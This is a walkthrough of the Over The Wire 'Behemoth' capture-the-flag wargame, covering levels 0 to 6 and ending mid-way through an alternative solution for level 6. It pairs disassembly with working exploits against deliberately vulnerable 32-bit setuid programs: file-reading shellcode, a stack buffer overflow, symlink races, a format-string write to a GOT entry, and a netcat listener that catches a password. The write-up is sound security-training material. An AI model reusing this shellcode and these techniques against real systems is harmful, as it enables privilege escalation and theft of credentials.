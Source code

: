 #+TITLE: Over The Wire: Behemoth
#+DATE: May 16, 2022
#+OPTIONS: toc:t num:nil

* About this Document
This document is a light-weight walk-through for solving the wargame
named Behemoth which is provided by "Over The Wire". It consists of
elementary security vulnerabilities on the 32 bit x86 platform. You
can find the wargame [[https://overthewire.org/wargames/behemoth/][here]].

Each level consists of one vulnerable program, that can be exploited
to escalate privileges and capture the password for the next level.

The format of this document is to present the vulnerability followed
by one possible exploit. No attempt is made to explain generic
knowledge such as C, GDB, or how the exploits work.

All passwords are omitted.

* Code & Conventions Used Throughout
The working directories throughout the outline are generated by =cd
$(mktemp -d)=. However, everything is presented in a relative manner.

All passwords are kept in =/etc/behemoth_pass/=.

Two pieces of code will be reused across levels. One being shellcode
and the other being =getenvaddr=. 

** Shellcode
Because we only care about getting the passwords by reading a file
located in =/etc/behemoth_pass/=, we don't care about spawning a shell
(unless we're forced to for some reason). Therefore, our shellcode
executes =/bin/cat= to print the contents of
=/etc/behemoth_pass/behemothX= to standard out. The =X= at the end of
the path is replaced by the appropriate level, which makes this
shellcode easily reusable for any level that calls for it.

*** =shellcode.asm=
#+NAME: shellcode.asm
#+BEGIN_SRC asm -n 1
BITS 32

xor eax, eax    ; Our null byte
push eax

mov edx, esp    ; Save the address of our null byte
push "/cat"
push "/bin"     ; Pushes "/bin/cat\0" on the stack
mov ebx, esp    ; Keep the address of "/bin/cat\0"

push eax        ; push "\0"
push "othX"     ; Change the X to the correct level number
push "ehem"
push "///b"
push "pass"
push "oth_"
push "ehem"
push "///b"
push "/etc"     ; Creates "/etc///behemoth_pass///behemothX\0"
mov ebp, esp    ; Save

push eax        ; NULL
push ebp        ; Pointer to "/etc///behemoth_pass///behemothX\0"
push ebx        ; Pointer to "/bin/cat\0"
mov ecx, esp    ; Pointer to array of strings that's terminated with NULL

mov al, 11      ; execve("/bin/cat", (char*[]) {"/bin/cat", "/etc///behemoth_pass///behemothX", NULL}, (char*[]) {NULL});
int 0x80        
#+END_SRC

*** Compiling
Edit line 12 by replacing =X= with the correct level number. Then use
NASM to assemble the shellcode.

#+BEGIN_EXAMPLE -n 1
$ nasm -o shellcode -f bin shellcode.asm
#+END_EXAMPLE

** Environment Variables
The environment variable =EGG= will be used to store shellcode. In
order to get the address of our environment variable, we'll use
=getenvaddr.c=. This code is taken from Jon Erikson's book "Hacking:
The Art of Exploitation".

*** =getenvaddr.c=
#+NAME: getenvaddr.c
#+BEGIN_SRC c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
int main(int argc, char** argv)
{
    const char* ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2;
    printf("%x\n", ptr);
    return 0;
}
#+END_SRC

*** Compiling
To compile this, do the following:

#+BEGIN_EXAMPLE -n 1
$ gcc -m32 -o getenvaddr getenvaddr.c
#+END_EXAMPLE

* Level 0

** The Vulnerability
When the program is ran, the user is prompted for a password. The user
given password is checked against a hard-coded string. This string is
the password that causes the program to continue it's normal execution
and spawns a shell. Line 48 is where a shell owned by behemoth1 would
be spawned if the correct password is given.

Line 33 is where the string comparison happens between the given
password and the correct password. You can see our input string is
stored in =$ebp-0x5d= and the correct password is stored in
=$ebp-1c=. However, it is "encrypted". The function for encrypting and
decrypting the password is =memfrob=.

#+BEGIN_EXAMPLE -n 1 -n 1
080485b1 <main>:
 80485b1:       55                      push   ebp
 80485b2:       89 e5                   mov    ebp,esp
 80485b4:       53                      push   ebx
 80485b5:       83 ec 5c                sub    esp,0x5c
 80485b8:       c7 45 e4 4f 4b 5e 47    mov    DWORD PTR [ebp-0x1c],0x475e4b4f
 80485bf:       c7 45 e8 53 59 42 45    mov    DWORD PTR [ebp-0x18],0x45425953
 80485c6:       c7 45 ec 58 5e 59 00    mov    DWORD PTR [ebp-0x14],0x595e58
 80485cd:       c7 45 f8 00 87 04 08    mov    DWORD PTR [ebp-0x8],0x8048700
 80485d4:       c7 45 f4 18 87 04 08    mov    DWORD PTR [ebp-0xc],0x8048718
 80485db:       c7 45 f0 2d 87 04 08    mov    DWORD PTR [ebp-0x10],0x804872d
 80485e2:       68 41 87 04 08          push   0x8048741
 80485e7:       e8 14 fe ff ff          call   8048400 <printf@plt>
 80485ec:       83 c4 04                add    esp,0x4
 80485ef:       8d 45 a3                lea    eax,[ebp-0x5d]
 80485f2:       50                      push   eax
 80485f3:       68 4c 87 04 08          push   0x804874c
 80485f8:       e8 73 fe ff ff          call   8048470 <__isoc99_scanf@plt>
 80485fd:       83 c4 08                add    esp,0x8
 8048600:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048603:       50                      push   eax
 8048604:       e8 47 fe ff ff          call   8048450 <strlen@plt>
 8048609:       83 c4 04                add    esp,0x4
 804860c:       50                      push   eax
 804860d:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048610:       50                      push   eax
 8048611:       e8 75 ff ff ff          call   804858b <memfrob>
 8048616:       83 c4 08                add    esp,0x8
 8048619:       8d 45 e4                lea    eax,[ebp-0x1c]
 804861c:       50                      push   eax
 804861d:       8d 45 a3                lea    eax,[ebp-0x5d]
 8048620:       50                      push   eax
 8048621:       e8 ca fd ff ff          call   80483f0 <strcmp@plt>
 8048626:       83 c4 08                add    esp,0x8
 8048629:       85 c0                   test   eax,eax
 804862b:       75 32                   jne    804865f <main+0xae>
 804862d:       68 51 87 04 08          push   0x8048751
 8048632:       e8 e9 fd ff ff          call   8048420 <puts@plt>
 8048637:       83 c4 04                add    esp,0x4
 804863a:       e8 d1 fd ff ff          call   8048410 <geteuid@plt>
 804863f:       89 c3                   mov    ebx,eax
 8048641:       e8 ca fd ff ff          call   8048410 <geteuid@plt>
 8048646:       53                      push   ebx
 8048647:       50                      push   eax
 8048648:       e8 f3 fd ff ff          call   8048440 <setreuid@plt>
 804864d:       83 c4 08                add    esp,0x8
 8048650:       68 62 87 04 08          push   0x8048762
 8048655:       e8 d6 fd ff ff          call   8048430 <system@plt>
 804865a:       83 c4 04                add    esp,0x4
 804865d:       eb 0d                   jmp    804866c <main+0xbb>
 804865f:       68 6a 87 04 08          push   0x804876a
 8048664:       e8 b7 fd ff ff          call   8048420 <puts@plt>
 8048669:       83 c4 04                add    esp,0x4
 804866c:       b8 00 00 00 00          mov    eax,0x0
 8048671:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
 8048674:       c9                      leave
 8048675:       c3                      ret
#+END_EXAMPLE

** The Exploit
We can open up a debugger and either set a breakpoint at =strcmp= and
look at the decrypted string or we can call =memfrob= on the string
and look at it. We'll do the latter because it's a little more
educational.

There's some initializing on =$ebp-0x1c= happening at the beginning of
=main=. (You can see this above on lines 6 through 11.) Because of
this, we'll set the breakpoint at =printf= and then do our work. Let's
check the length of =$ebp-0x1c= and call =memfrob=.

#+BEGIN_EXAMPLE -n 1
$ gdb -q /behemoth/behemoth0
Reading symbols from /behemoth/behemoth0...(no debugging symbols found)...done.
(gdb) b printf
Breakpoint 1 at 0x8048400
(gdb) r
Starting program: /behemoth/behemoth0

Breakpoint 1, 0xf7e5b7d0 in printf () from /lib32/libc.so.6
#+END_EXAMPLE

At this point, the the password string is initialized at =$ebp-0x1c=
but it's encrypted. We can see the encrypted string by doing,

#+BEGIN_EXAMPLE -n 1
(gdb) x/s $ebp-0x1c
0xffffd6ac:     "OK^GSYBEX^Y"
#+END_EXAMPLE

Now let's decrypted it by calling =memfrob=. If you look at what's
happening, you'll see that =memfrob= takes 2 arguments; the first
being a pointer to a string and the second being the length of the
string. Therefore, in order to call =memfrob=, we need the length of
=$ebp-0x1c=. We can get this by calling =strlen=.

#+BEGIN_EXAMPLE -n 1
(gdb) call strlen($ebp-0x1c)
$1 = 11
(gdb) call memfrob($ebp-0x1c, 11)
$2 = 0
(gdb) x/s $ebp-0x1c
0xffffd6ac:     "eatmyshorts"
(gdb) quit
A debugging session is active.

        Inferior 1 [process 16747] will be killed.

Quit anyway? (y or n) y
#+END_EXAMPLE

Now that we have what we think is the password, we can test it.

#+BEGIN_EXAMPLE -n 1
$ /behemoth/behemoth0
Password: eatmyshorts
Access granted..
$ whoami
behemoth1
$
#+END_EXAMPLE

Now we have the correct privileges to read
=/etc/behemoth_pass/behemoth1=.

* Level 1

** The Vulnerability
A classic buffer overflow on the stack.

User input is being written to a buffer on the stack with =gets= that
is 0x43 (67) bytes long. Therefore, this is vulnerable to over writing
the return address of =main=.

#+BEGIN_EXAMPLE -n 1
0804844b <main>:
 804844b:       55                      push   ebp
 804844c:       89 e5                   mov    ebp,esp
 804844e:       83 ec 44                sub    esp,0x44
 8048451:       68 00 85 04 08          push   0x8048500
 8048456:       e8 a5 fe ff ff          call   8048300 <printf@plt>
 804845b:       83 c4 04                add    esp,0x4
 804845e:       8d 45 bd                lea    eax,[ebp-0x43]
 8048461:       50                      push   eax
 8048462:       e8 a9 fe ff ff          call   8048310 <gets@plt>
 8048467:       83 c4 04                add    esp,0x4
 804846a:       68 0c 85 04 08          push   0x804850c
 804846f:       e8 ac fe ff ff          call   8048320 <puts@plt>
 8048474:       83 c4 04                add    esp,0x4
 8048477:       b8 00 00 00 00          mov    eax,0x0
 804847c:       c9                      leave
 804847d:       c3                      ret
#+END_EXAMPLE

** The Exploit
We'll put our shellcode in =$EGG= and overwrite the return address from
=main= to point to =$EGG=.

#+BEGIN_EXAMPLE -n 1
$ export EGG=$(cat shellcode)
$ ./getenvaddr EGG /behemoth/behemoth1
ffffda2d
#+END_EXAMPLE

Because the x86 architecture is little endian, we have to put the
bytes in the correct order. The low-order byte goes first and the
high-order byte last.

#+BEGIN_EXAMPLE -n 1
$ printf "%s\x2d\xda\xff\xff" $(python -c "print('A' * 71)") | /behemoth/behemoth1
Password: Authentication failure.
Sorry.
XXXXXXXXXX
$
#+END_EXAMPLE

The shellcode displays the contents of
=/etc/behemoth_pass/behemoth2=, which I have censored here.

* Level 2

** The Vulnerability
This awkward program has a vulnerable race condition. It tries to
create a file who's filename is the PID of the process creating
it. Then the program sleeps for 33.3 minutes. When it wakes up, it
prints out the contents of the file it created.

Therefore, if we can replace the created file with a symbolic link
that points to =/etc/behemoth_pass/behemoth3=, then we can possibly
captured the password.

#+BEGIN_EXAMPLE -n 1
0804856b <main>:
 804856b:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804856f:       83 e4 f0                and    esp,0xfffffff0
 8048572:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048575:       55                      push   ebp
 8048576:       89 e5                   mov    ebp,esp
 8048578:       53                      push   ebx
 8048579:       51                      push   ecx
 804857a:       83 c4 80                add    esp,0xffffff80
 804857d:       e8 7e fe ff ff          call   8048400 <getpid@plt>
 8048582:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 8048585:       8d 45 dc                lea    eax,[ebp-0x24]
 8048588:       83 c0 06                add    eax,0x6
 804858b:       89 45 f0                mov    DWORD PTR [ebp-0x10],eax
 804858e:       83 ec 04                sub    esp,0x4
 8048591:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 8048594:       68 10 87 04 08          push   0x8048710
 8048599:       8d 45 dc                lea    eax,[ebp-0x24]
 804859c:       50                      push   eax
 804859d:       e8 9e fe ff ff          call   8048440 <sprintf@plt>
 80485a2:       83 c4 10                add    esp,0x10
 80485a5:       83 ec 08                sub    esp,0x8
 80485a8:       8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
 80485ae:       50                      push   eax
 80485af:       ff 75 f0                push   DWORD PTR [ebp-0x10]
 80485b2:       e8 19 01 00 00          call   80486d0 <__lstat>
 80485b7:       83 c4 10                add    esp,0x10
 80485ba:       25 00 f0 00 00          and    eax,0xf000
 80485bf:       3d 00 80 00 00          cmp    eax,0x8000
 80485c4:       74 36                   je     80485fc <main+0x91>
 80485c6:       83 ec 0c                sub    esp,0xc
 80485c9:       ff 75 f0                push   DWORD PTR [ebp-0x10]
 80485cc:       e8 1f fe ff ff          call   80483f0 <unlink@plt>
 80485d1:       83 c4 10                add    esp,0x10
 80485d4:       e8 07 fe ff ff          call   80483e0 <geteuid@plt>
 80485d9:       89 c3                   mov    ebx,eax
 80485db:       e8 00 fe ff ff          call   80483e0 <geteuid@plt>
 80485e0:       83 ec 08                sub    esp,0x8
 80485e3:       53                      push   ebx
 80485e4:       50                      push   eax
 80485e5:       e8 36 fe ff ff          call   8048420 <setreuid@plt>
 80485ea:       83 c4 10                add    esp,0x10
 80485ed:       83 ec 0c                sub    esp,0xc
 80485f0:       8d 45 dc                lea    eax,[ebp-0x24]
 80485f3:       50                      push   eax
 80485f4:       e8 17 fe ff ff          call   8048410 <system@plt>
 80485f9:       83 c4 10                add    esp,0x10
 80485fc:       83 ec 0c                sub    esp,0xc
 80485ff:       68 d0 07 00 00          push   0x7d0
 8048604:       e8 c7 fd ff ff          call   80483d0 <sleep@plt>
 8048609:       83 c4 10                add    esp,0x10
 804860c:       8d 45 dc                lea    eax,[ebp-0x24]
 804860f:       c7 00 63 61 74 20       mov    DWORD PTR [eax],0x20746163
 8048615:       c6 40 04 00             mov    BYTE PTR [eax+0x4],0x0
 8048619:       c6 45 e0 20             mov    BYTE PTR [ebp-0x20],0x20
 804861d:       e8 be fd ff ff          call   80483e0 <geteuid@plt>
 8048622:       89 c3                   mov    ebx,eax
 8048624:       e8 b7 fd ff ff          call   80483e0 <geteuid@plt>
 8048629:       83 ec 08                sub    esp,0x8
 804862c:       53                      push   ebx
 804862d:       50                      push   eax
 804862e:       e8 ed fd ff ff          call   8048420 <setreuid@plt>
 8048633:       83 c4 10                add    esp,0x10
 8048636:       83 ec 0c                sub    esp,0xc
 8048639:       8d 45 dc                lea    eax,[ebp-0x24]
 804863c:       50                      push   eax
 804863d:       e8 ce fd ff ff          call   8048410 <system@plt>
 8048642:       83 c4 10                add    esp,0x10
 8048645:       b8 00 00 00 00          mov    eax,0x0
 804864a:       8d 65 f8                lea    esp,[ebp-0x8]
 804864d:       59                      pop    ecx
 804864e:       5b                      pop    ebx
 804864f:       5d                      pop    ebp
 8048650:       8d 61 fc                lea    esp,[ecx-0x4]
 8048653:       c3                      ret
#+END_EXAMPLE

** The Exploit

Because the process is running as behemoth3, we need to ensure the
process has permission to write to the directories and files we
need. To accomplish this, we'll make a new directory and give it 777
permissions. Then we'll make a file called =pass.txt= and give it the
same permissions.

#+BEGIN_EXAMPLE -n 1
$ mkdir w
$ chmod 777
$ cd w
$ touch pass.txt
$ chmod 777 pass.txt
#+END_EXAMPLE

This hack will take 33.3 minutes to complete. Because we don't want to
sit here watching for a password to pop up, we'll run the process in
the background and pipe the output to =pass.txt=. After we start the
process, we'll know the PID and hence know the filename we need to
overwrite with a symbolic link.

#+BEGIN_EXAMPLE -n 1
$ behemoth/behemoth2 > pass.txt &
[1] 29355
$ ln -sf /etc/behemoth_pass/behemoth3 29355
#+END_EXAMPLE

We can run the following shell script snippet to sound the bell when the
process has ended.

#+BEGIN_EXAMPLE -n 1
$ while (2>&1 kill -0 29355 | grep permitted > /dev/null); do
> echo "Process still running..."
> sleep 5
> done; \
> echo -ne '\007'; \ # Ring the bell
> cat pass.txt
#+END_EXAMPLE

* Level 3
** The Vulnerability
This level has a format string vulnerability. The user is prompted for
input and that input is passed directly to =printf=. Therefore, a user
can inject formatting syntax that =printf= understands.

This can be used to overwrite parts of memory using the =%n=
specifier; which implies we can overwrite a return address, parts of
the =.plt= section or something else we choose.

Looking at the disassembly of =main=, we see =puts= is called at
address =0x80484cc=.

#+BEGIN_EXAMPLE -n 1
0804847b <main>:
 804847b:       55                      push   ebp
 804847c:       89 e5                   mov    ebp,esp
 804847e:       81 ec c8 00 00 00       sub    esp,0xc8
 8048484:       68 60 85 04 08          push   0x8048560
 8048489:       e8 a2 fe ff ff          call   8048330 <printf@plt>
 804848e:       83 c4 04                add    esp,0x4
 8048491:       a1 c0 97 04 08          mov    eax,ds:0x80497c0
 8048496:       50                      push   eax
 8048497:       68 c8 00 00 00          push   0xc8
 804849c:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484a2:       50                      push   eax
 80484a3:       e8 98 fe ff ff          call   8048340 <fgets@plt>
 80484a8:       83 c4 0c                add    esp,0xc
 80484ab:       68 74 85 04 08          push   0x8048574
 80484b0:       e8 7b fe ff ff          call   8048330 <printf@plt>
 80484b5:       83 c4 04                add    esp,0x4
 80484b8:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484be:       50                      push   eax
 80484bf:       e8 6c fe ff ff          call   8048330 <printf@plt>
 80484c4:       83 c4 04                add    esp,0x4
 80484c7:       68 7e 85 04 08          push   0x804857e
 80484cc:       e8 7f fe ff ff          call   8048350 <puts@plt>
 80484d1:       83 c4 04                add    esp,0x4
 80484d4:       b8 00 00 00 00          mov    eax,0x0
 80484d9:       c9                      leave  
 80484da:       c3                      ret
 #+END_EXAMPLE

Because the program is calling =puts= from a dynamically loaded
library, it needs to know how to find the address where =puts=
resides. This information is supplied by the =.plt= section.

 #+BEGIN_EXAMPLE -n 1
 08048350 <puts@plt>:
 8048350:       ff 25 ac 97 04 08       jmp    DWORD PTR ds:0x80497ac
 8048356:       68 10 00 00 00          push   0x10
 804835b:       e9 c0 ff ff ff          jmp    8048320 <.plt>
 #+END_EXAMPLE

 We can see from the above disassembly that the pointer to =puts= is
 =0x80497ac=.
 
** The Exploit

Let's first prepare our shellcode.

#+BEGIN_EXAMPLE -n 1
$ export EGG=$(cat shellcode)
$ ./getenvaddr EGG /behemoth/behemoth3
ffffde2d
#+END_EXAMPLE

From the =.plt= section, we know the pointer for =puts= is
=0x80497ac=. We'll overwrite the value in two steps. First overwriting
2 bytes at =0x80497ac=. Then overwriting 2 bytes at =0x80497ae=. The
order matters. The =%n= specifier writes 4 bytes (an unsigned int) and
we don't want to overwrite the upper 2 bytes of our address when
writing the lower two bytes.

Our string for =printf= will conceptually consist of two parts. The
first is ="\xac\x97\x04\x08\xae\x97\x04\x08"= which will act as
pointers for =%n=. The second part will have this structure
="%c%1$n%c%2$n"=. We just have to figure out how many chars to print
so that =%n= will write the correct value.

If we use the strings above as they are, the lower 2 bytes would be
written with 0x09 and the upper 2 bytes would be 0x0a. We need the
lower 2 bytes to be 0xde2d. Therefore, we need to write 56869 (0xde25)
more characters and then 8658 (0x21d2) more characters for the last 2
bytes.

The final result looks like this:

#+BEGIN_EXAMPLE -n 1
$ printf '\xac\x97\x04\x08\xae\x97\x04\x08%%56869c%%1$n%%8658c%%2$n' | /behemoth/behemoth3

XXXXXXXXXX
#+END_EXAMPLE

* Level 4

** The Vulnerability

This level is very similar to level 2. The program is trying to open a
file that's named after it's PID. Then it prints out the file
contents. We can see in the beginning of =main=, =getpid= is called
(at 0x804858c) and the result is stored in =$ebp-0xc=. Soon after, the
value is used in =sprintf= to create some new string. You can quickly
see that the format string for =sprintf= is ="/tmp/%d"=.

#+BEGIN_EXAMPLE -n 1
0804857b <main>:
 804857b:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804857f:       83 e4 f0                and    esp,0xfffffff0
 8048582:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048585:       55                      push   ebp
 8048586:       89 e5                   mov    ebp,esp
 8048588:       51                      push   ecx
 8048589:       83 ec 24                sub    esp,0x24
 804858c:       e8 6f fe ff ff          call   8048400 <getpid@plt>
 8048591:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 8048594:       83 ec 04                sub    esp,0x4
 8048597:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 804859a:       68 c0 86 04 08          push   0x80486c0
 804859f:       8d 45 d8                lea    eax,[ebp-0x28]
 80485a2:       50                      push   eax
 80485a3:       e8 b8 fe ff ff          call   8048460 <sprintf@plt>
 80485a8:       83 c4 10                add    esp,0x10
 80485ab:       83 ec 08                sub    esp,0x8
 80485ae:       68 c8 86 04 08          push   0x80486c8
 80485b3:       8d 45 d8                lea    eax,[ebp-0x28]
 80485b6:       50                      push   eax
 80485b7:       e8 74 fe ff ff          call   8048430 <fopen@plt>
 #+END_EXAMPLE
 
 Then there's some yada-yada (that's a technical term) and the content
 is read and spit out.
 
 #+BEGIN_EXAMPLE -n 1
 80485bc:       83 c4 10                add    esp,0x10
 80485bf:       89 45 f0                mov    DWORD PTR [ebp-0x10],eax
 80485c2:       83 7d f0 00             cmp    DWORD PTR [ebp-0x10],0x0
 80485c6:       75 12                   jne    80485da <main+0x5f>
 80485c8:       83 ec 0c                sub    esp,0xc
 80485cb:       68 ca 86 04 08          push   0x80486ca
 80485d0:       e8 3b fe ff ff          call   8048410 <puts@plt>
 80485d5:       83 c4 10                add    esp,0x10
 80485d8:       eb 52                   jmp    804862c <main+0xb1>
 80485da:       83 ec 0c                sub    esp,0xc
 80485dd:       6a 01                   push   0x1
 80485df:       e8 0c fe ff ff          call   80483f0 <sleep@plt>
 80485e4:       83 c4 10                add    esp,0x10
 80485e7:       83 ec 0c                sub    esp,0xc
 80485ea:       68 d9 86 04 08          push   0x80486d9
 80485ef:       e8 1c fe ff ff          call   8048410 <puts@plt>
 80485f4:       83 c4 10                add    esp,0x10
 80485f7:       eb 0e                   jmp    8048607 <main+0x8c>
 80485f9:       83 ec 0c                sub    esp,0xc
 80485fc:       ff 75 ec                push   DWORD PTR [ebp-0x14]
 80485ff:       e8 3c fe ff ff          call   8048440 <putchar@plt>
 8048604:       83 c4 10                add    esp,0x10
 8048607:       83 ec 0c                sub    esp,0xc
 804860a:       ff 75 f0                push   DWORD PTR [ebp-0x10]
 804860d:       e8 3e fe ff ff          call   8048450 <fgetc@plt>
 8048612:       83 c4 10                add    esp,0x10
 8048615:       89 45 ec                mov    DWORD PTR [ebp-0x14],eax
 8048618:       83 7d ec ff             cmp    DWORD PTR [ebp-0x14],0xffffffff
 804861c:       75 db                   jne    80485f9 <main+0x7e>
 804861e:       83 ec 0c                sub    esp,0xc
 8048621:       ff 75 f0                push   DWORD PTR [ebp-0x10]
 8048624:       e8 b7 fd ff ff          call   80483e0 <fclose@plt>
 8048629:       83 c4 10                add    esp,0x10
 804862c:       b8 00 00 00 00          mov    eax,0x0
 8048631:       8b 4d fc                mov    ecx,DWORD PTR [ebp-0x4]
 8048634:       c9                      leave
 8048635:       8d 61 fc                lea    esp,[ecx-0x4]
 8048638:       c3                      ret
#+END_EXAMPLE

Thus, if we know the PID we can create a symbolic link in =/tmp/= that
points to =/etc/behemoth_pass/behemoth5=.

** The Exploit

The exploit is fairly straight forward. We'll implement a wrapper that
forks to capture the PID. The parent process will create the symlink
and the child will execute =/behemoth/behemoth4=.

#+BEGIN_SRC c
  #include <stdio.h>
  #include <unistd.h>

  int main() {
    int pid = fork();
    char file[] = "/tmp/XXXXXXXXXXXXXXXX";

    if (pid == 0) {
      printf("Child is sleeping...\n");
      sleep(5);
      printf("Child woke up!\n");
      printf("Executing behemoth4");
      execl("/behemoth/behemoth4", "behemoth4", NULL);
    } else {
      sprintf(file + sizeof("/tmp/") - 1, "%d", pid);
      printf("Making symlink: %s -> /etc/behemoth_pass/behemoth5\n", file);
      symlink("/etc/behemoth_pass/behemoth5", file);
    }

    return 0;
  }
#+END_SRC

We'll save this code =exploit.c= and compile it.

#+BEGIN_EXAMPLE -n 1
$ gcc -o exploit exploit.c
$ ./exploit > pass.txt
#+END_EXAMPLE

Wait for 5 seconds and then,

#+BEGIN_EXAMPLE -n 1
$ cat pass.txt
Making symlink: /tmp/16830 -> /etc/behemoth_pass/behemoth5
Finished sleeping, fgetcing
XXXXXXXXXX
#+END_EXAMPLE

* Level 5
** The Vulnerability
I'm not going to post the entire disassembly because it's long and we
don't need to reference most of it.

Immediately, the program is opening a file which happens to be the
password file we want to read, =/etc/behemoth_pass/behemoth6=. The
strings =0x80489a0= and =0x80489a2= are ="r"= and
=/etc/behemoth_pass/behemoth6= respectively.

#+BEGIN_EXAMPLE -n 1
0804872b <main>:
 804872b:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804872f:       83 e4 f0                and    esp,0xfffffff0
 8048732:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048735:       55                      push   ebp
 8048736:       89 e5                   mov    ebp,esp
 8048738:       51                      push   ecx
 8048739:       83 ec 34                sub    esp,0x34
 804873c:       c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
 8048743:       83 ec 08                sub    esp,0x8
 8048746:       68 a0 89 04 08          push   0x80489a0
 804874b:       68 a2 89 04 08          push   0x80489a2
 8048750:       e8 5b fe ff ff          call   80485b0 <fopen@plt>
 #+END_EXAMPLE

 So the question is, what is the program going to do with the file?
 The answer is read the contents and write those contents to a
 socket. Therefore, we need to know the socket type (such as TCP, UDP,
 or UNIX). In addition to this we need to know either the port or
 filename of the socket.

 We can see that it's a connection-less socket over IP.  The =0x2= at
 0x8048834 refers to =SOCK_DGRAM= and the =0x2= at 0x8048836 refers to
 =PF_INET=. Therefore, it's a UDP socket.
 
 #+BEGIN_EXAMPLE -n 1
 8048832:       6a 00                   push   0x0
 8048834:       6a 02                   push   0x2
 8048836:       6a 02                   push   0x2
 8048838:       e8 b3 fd ff ff          call   80485f0 <socket@plt>
 #+END_EXAMPLE

 The port number can be found here which ends up being 1337.
 
 #+BEGIN_EXAMPLE -n 1
 804886c:       68 e4 89 04 08          push   0x80489e4
 8048871:       e8 6a fd ff ff          call   80485e0 <atoi@plt>
 #+END_EXAMPLE

** The Exploit

This will be extremely easy. We'll use netcat to listen on a UDP
socket using port 1337.

#+BEGIN_EXAMPLE -n 1
$ nc -u -l -p 1337 > pass.txt &
[2] 18669
$ /behemoth/behemoth5
$ cat pass.txt
XXXXXXXXXX
#+END_EXAMPLE

* Level 6

** The Vulnerability

Level 6 consists of two executables, =/behemoth/behemoth6= and
=/behemoth/behemoth6_reader=. The former executes =behemoth6_reader=
with =popen= and reads it's output. If the output matches
"HelloKitty", it spawns a shell owned behemoth7.

Therefore, to solve this level, we need to force =behemoth6_reader= to
print out "HelloKitty". If we look at what =behemoth6_reader= does, it
reads the contents of a filename "shellcode.txt" into memory and then
calls it as a function. However, if "shellcode.txt" has a 0xb byte, it
fails.

There are so many ways this can be exploited.

** The Exploit
One solution is to write some shellcode that prints out
"HelloKitty". The following shellcode accomplishes this:

#+NAME: shellcode6.asm
#+BEGIN_SRC asm -n 1
BITS 32
%define PUTS [0x804a020]
push ebp
mov ebp,esp
xor eax, eax
push eax
push "itty"
push "lloK"
push "xxHe"
inc esp
inc esp
push esp
call PUTS
mov esp, ebp
pop ebp
ret
#+END_SRC

We need to make a directory that the user behemoth7 can access.

#+BEGIN_EXAMPLE -n 1
$ mkdir w
$ chmod 777 w
$ cd w
#+END_EXAMPLE

Now let's assemble our shellcode and run =behemoth6=.

#+BEGIN_EXAMPLE -n 1
$ nasm -o shellcode.txt ../shellcode6.asm
$ /behemoth/behemoth6
Correct.
$ whoami
behemoth7
$ cat /etc/behemoth_pass/behemoth7
XXXXXXXXXX
$
#+END_EXAMPLE

*** Alternative Exploit

Just to make the point that there's more than one solution to these
levels, I'll provide another method. The shellcode is running as
behemoth7. Therefore we can directly access files owned by behemoth7
from the shellcode.

Instead of having our shellcode print out "HelloKitty", we can just
copy the contents of =/etc/behemoth_pass/behemoth7= to a file
behemoth6 can read.

Here's shellcode that avoids the byte 0xb and executes a file named
=X= in the local directory.

#+NAME: shellcode6.1.asm
#+BEGIN_SRC asm -n 1
          BITS 32

          xor eax, eax    ; Our null byte
          push eax
          mov ecx, esp    ; Array of {NULL}
          mov edx, esp    ; Array of {NULL}
          push ".//X"
          mov ebx, esp
          inc al
          add al, 10      ; Avoid 0xb
          int 0x80
#+END_SRC

Let's write a C program called =X.c= that will copy the password out
